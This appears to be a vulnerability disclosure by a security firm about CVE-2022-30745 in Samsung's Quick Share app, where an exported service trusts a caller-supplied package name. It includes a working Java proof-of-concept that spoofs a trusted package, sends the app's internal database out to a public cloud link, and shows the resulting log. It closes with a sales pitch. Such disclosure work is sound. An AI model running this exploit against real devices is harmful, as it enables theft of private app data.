

# Details

<table>
    <tr>
        <td>Name</td>
        <td>Quick Share</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.samsung.android.app.sharelive</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.04.06</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.06.07</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Moderate</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-30745">CVE-2022-30745</a> (SVE-2022-0866)</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$810</td>
    </tr>
</table>

# Description

Oversecured found the exported `com.samsung.android.app.sharelive.linkexportservice.SimpleSharingExportService` service that contained the exposed AIDL interfaces:


This internal service is used to shear files and URIs that are uploaded to the Samsung cloud. Judging by the checks in the code, only internal Samsung apps were able to interact with it. However, we found an authorization bug that allowed any app to upload any files to the Samsung cloud and access them.

The app had a list of allowed apps and their signatures that could interact with the service. These checks were performed on each call to each AIDL interface. However, the app had flawed validation logic: instead of using the only safe option of calling `Binder.getCallingUid()`, it also took information on the app from the attacker. The AIDL method `exchangeData()` allowed to set this data. The `com.samsung.android.app.sharelive.linkexportservice.bind.BinderManager` class then checked the data from the attacker first:
```java
public final String getPackageNameForSignature(PackageManager packageManager) {
    ExchangeData exchangeData = this.data; // <<< attacker-supplied data
    if (exchangeData == null) {
        String nameForUid = packageManager.getNameForUid(this.uid);
        if (nameForUid == null) {
            nameForUid = "";
        }
        ServiceLog.m55i("BinderManager", Intrinsics.stringPlus("packageName : ", nameForUid));
        return nameForUid;
    }
    String packageName = exchangeData.getPackageName();
    Intrinsics.checkNotNullExpressionValue(packageName, "it.packageName");
    return packageName; // <<< attacker-controlled package name
}
```

**Proof of Concept**

This code causes the app to send the internal file `/data/user/0/com.samsung.android.app.sharelive/databases/share_live.db` to the Samsung cloud and return the public download link back to the attacker:
```java
private ServiceConnection mServiceConnection = new ServiceConnection() {
    public void onServiceConnected(ComponentName cName, IBinder service) {
        MainActivity.this.service = ISimpleSharingSdk.Stub.asInterface(service);
        processBinder();
    }

    public void onServiceDisconnected(ComponentName cName) {
    }
};

private ISimpleSharingSdk service;

private ISimpleSharingCallback.Stub callback = new ISimpleSharingCallback.Stub() {
    @Override
    public void onResponse(Bundle bundle) {
        DumpUtils.dump(bundle, getClassLoader());
    }
};

protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);

    Intent i = new Intent();
    i.setClassName("com.samsung.android.app.sharelive", "com.samsung.android.app.sharelive.linkexportservice.SimpleSharingExportService");
    bindService(i, mServiceConnection, BIND_AUTO_CREATE);
}

private void processBinder() {
    try {
        ExchangeData data = new ExchangeData(0, 0, "com.samsung.android.messaging", 0);
        service.exchangeData(data);

        service.checkServiceRegistered(new Bundle(), callback);
        service.getPolicy(new Bundle(), callback);
        service.getQuota(new Bundle(), callback);

        Bundle bundle = new Bundle();
        bundle.putStringArrayList("contentUris", new ArrayList<>(Arrays.asList("file:///data/user/0/com.samsung.android.app.sharelive/databases/share_live.db")));
        service.requestShareLink(bundle, callback);
    } catch (Throwable th) {
        throw new RuntimeException(th);
    }
}
```

The log was as follows:
```
04-06 02:39:38.846 23939 23953 D evil    : {
04-06 02:39:38.846 23939 23953 D evil    :   "mMap": {
04-06 02:39:38.846 23939 23953 D evil    :     "availableQuota": 5368709120,
04-06 02:39:38.846 23939 23953 D evil    :     "onPartialId": 4,
04-06 02:39:38.846 23939 23953 D evil    :     "description": "1 file (64 KB)",
04-06 02:39:38.846 23939 23953 D evil    :     "isDeferMode": false,
04-06 02:39:38.846 23939 23953 D evil    :     "id": 4,
04-06 02:39:38.846 23939 23953 D evil    :     "uri": "content://com.samsung.android.app.sharelive.fileprovider/my_preview/preview_image/PREVIEW_20220406_023939_919.png",
04-06 02:39:38.846 23939 23953 D evil    :     "url": "https://linksharing.samsungcloud.com/8YzYfAlvSkKM",
04-06 02:39:38.846 23939 23953 D evil    :     "title": "Link Sharing",
04-06 02:39:38.846 23939 23953 D evil    :     "quotaPerFile": 3221225472,
04-06 02:39:38.846 23939 23953 D evil    :     "isActivated": true,
04-06 02:39:38.846 23939 23953 D evil    :     "quotaPerDay": 5368709120
04-06 02:39:38.846 23939 23953 D evil    :   }
04-06 02:39:38.846 23939 23953 D evil    : }
```

## References

- [Oversecured Blog. Common mistakes when using permissions in Android](https://blog.oversecured.com/Common-mistakes-when-using-permissions-in-Android/)

## Conclusion

Mobile app security is more critical than ever in today's digital landscape. As we have shown through our research, even the most reputable brands are not immune to the threat of cyberattacks. 

At Oversecured, we are committed to help our clients stay ahead of the curve with our industry-leading mobile app vulnerability scanning technology. With our comprehensive approach to mobile app security, you can trust that your brand and your users are protected from data breaches and other security threats.

Don't wait until it's too late. [Get a free consultation](https://oversecured.com/contact-us?utm_source=github&utm_medium=article&utm_campaign=samsung2022) and find out how we can help secure your mobile apps. Together, we can build a safer digital world.